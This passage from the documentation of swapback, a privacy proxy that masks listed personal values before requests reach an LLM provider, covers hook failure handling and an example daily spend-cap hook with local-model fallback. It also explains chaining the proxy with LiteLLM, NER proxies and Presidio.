so `«EMAIL_1»`, not the address. A rerouted or locally answered reply is restored like any other. In `watch` and
`off` nothing is scrubbed, so a hook sees what is forwarded.

**Failure policy.** An exception in `setup` stops the proxy from starting. An exception in `before_forward` or
`on_upstream_response` fails closed: 503, nothing forwarded, an alert, like a scrub error. `on_usage`, `on_complete`
and `alert` run after the reply has started, so their exceptions are only counted (`hook_errors` in
`/scrubber/health`). A changed `hooks` section needs a restart.

A daily spend cap that falls back to a local llama.cpp server once the cap is reached:

```python
# spend_cap.py
import datetime
SPENT, OPT = {}, {}
PRICE = {"prompt_tokens": 3e-6, "completion_tokens": 15e-6}      # USD per token, your provider's prices

def setup(options, cfg):
    OPT.update(options)

def _today():
    return datetime.date.today().isoformat()

def before_forward(req, ctx):
    if SPENT.get(_today(), 0) >= OPT["daily_usd"] and req.api == "chat":
        ctx["log"]["capped"] = 1
        return {"url": "http://127.0.0.1:8080/v1/chat/completions", "body": dict(req.body, model="local")}

def on_upstream_response(resp, ctx):                  # provider down or over quota: same request, local model
    if resp.status is None or resp.status in (429, 503):
        return {"url": "http://127.0.0.1:8080/v1/chat/completions", "body": dict(ctx["request"].body, model="local")}

def on_usage(obj, ctx):
    u = obj.get("usage") if isinstance(obj, dict) else None
    if u:
        SPENT[_today()] = SPENT.get(_today(), 0) + sum(u.get(k, 0) * p for k, p in PRICE.items())

def extra_routes():
    return {"/spend": lambda: {"today_usd": round(SPENT.get(_today(), 0), 4), "cap_usd": OPT["daily_usd"]}}
```

`swapback check-config` lists the hook functions it found.

## Use alongside LiteLLM or an NER tool

swapback does one narrow thing: the values you listed never reach the provider in any spelling, tool calls that could
send data out keep placeholders, and anything it can't check is blocked. It does not try to find names you never
listed. It stacks with tools that do:

- **Behind LiteLLM (or any gateway).** Point your app at swapback and set swapback's `upstream` to your LiteLLM proxy
  (`upstream: http://127.0.0.1:4000`). LiteLLM keeps doing routing, keys, budgets and its Presidio guardrail for
  unlisted names; swapback adds the listed-value guarantee, the tool-call egress policy and fail-closed behaviour
  before anything reaches the gateway.
- **With an NER proxy (PasteGuard, Kiji, Maskit, Veil's NER).** Chain them: app → swapback → NER proxy → provider.
  swapback swaps your listed values first, so the NER pass only has to deal with what's left, and a missed listed
  value blocks instead of depending on a model's recall. Put swapback first so the restore of exact values happens
  last on the way back.
- **With Presidio in your own code.** Use Presidio to find candidate names in your data, then add the ones you care
  about to `known.yaml` (`swapback known init` merges a contacts export; `--scan` suggests more from your own files).
